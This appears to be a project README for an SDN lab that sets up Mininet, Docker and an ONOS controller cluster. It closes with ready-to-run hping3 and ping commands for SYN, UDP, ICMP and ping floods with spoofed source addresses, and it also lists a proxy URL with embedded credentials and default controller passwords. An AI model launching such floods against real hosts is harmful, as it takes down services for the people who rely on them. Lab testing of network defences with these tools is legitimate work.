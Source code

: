 ## Installing Mininet
* sudo apt-get install mininet

## Installing Docker
* sudo apt-get purge docker docker-engine docker.io
* sudo apt-get update
* sudo apt-get install apt-transport-https ca-certificates curl software-properties-common
* curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
* sudo apt-key fingerprint (**FingerPrint**)
* Verify that you now have the key with the fingerprint.
* sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable"
* sudo apt-get update
* sudo apt-get install docker-ce

## Configuring Proxy in docker
* mkdir -p /etc/systemd/system/docker.service.d
* sudo gedit /etc/systemd/system/docker.service.d/http-proxy.conf
* Enter following in file:<br>
```
[Service]<br>
Environment="HTTP_PROXY=http://edcguest:edcguest@172.31.52.51:3128/"
```
* sudo gedit /etc/systemd/system/docker.service.d/https-proxy.conf
* Enter following in file:<br>
```
[Service]<br>
Environment="HTTPS_PROXY=https://edcguest:edcguest@172.31.52.51:3128/"
```
* sudo systemctl daemon-reload
* sudo systemctl restart docker
* open new terminal and verify that proxy is set by typing <br> *sudo systemctl show --property=Environment docker*
* docker run hello-world
## Downloading onos
* docker pull onosproject/onos:1.11.1
* sudo docker images (verify)
## Installing other requirements
* sudo apt-get purge python-pip
* wget https://bootstrap.pypa.io/get-pip.py
* python get-pip.py
* sudo pip install networkx
* sudo pip install paramiko

## Running onos instances
* sudo docker run -t -d --name onos1 onosproject/onos:1.11.1<br>
 * sudo docker run -t -d --name onos2 onosproject/onos:1.11.1<br>
* sudo docker run -t -d --name onos3 onosproject/onos:1.11.1<br>
## Docker IPs
* 172.17.0.2
* 172.17.0.3 and so on (based on number of instances)
## SSH inside the ONOS
* ssh -p 8101 karaf@172.17.0.2
* password : **karaf**
## Activating apps inside ONOS
* app activate org.onosproject.openflow
* app activate org.onosproject.fwd
## Accessing the GUI 
* Go to http://172.17.0.2:8181/onos/ui/index.html
* username : **onos**
* password : **rocks**
## Wiping out ONOS
* wipe-out please (clears the nodes)
## Stopping already running instances
* docker stop onos1 onos2 onos3
## Removing old containers
* docker rm onos1 onos2 onos3
## Forming cluster
* ./onos-form-cluster -u karaf -p karaf 172.17.0.2 172.17.0.3 172.17.0.4
## using standard mininet topologies
* sudo mn --controller=remote,ip=172.17.0.2,port=6653 --topo=[ linear|minimal|reversed|single|torus|tree ],10 
## cleaning mininet
* sudo mn -c
## DDOS Attacks
+ ### SYN Flood
```
sudo hping3 --rand-source –S –L 0 –p 80 <target IP>
```
+ ### UDP Flood
```
sudo hping3 --rand-source -–udp -p 53 <target IP> --flood
```
+ ### ICMP Flood
```
sudo hping3 --icmp --rand-source <target IP> --flood
```
+ ### Ping Flood
```
sudo ping -f -s 65500 <Target IP>
```
## Other contributors
* [Chaitanya kumar](https://github.com/Jackson2398)
* [Aditya Choudary](http://github.com/adityachd123)
* [Kapil Dev](https://www.google.com)
* [Ayushi Sharma](https://www.google.com)
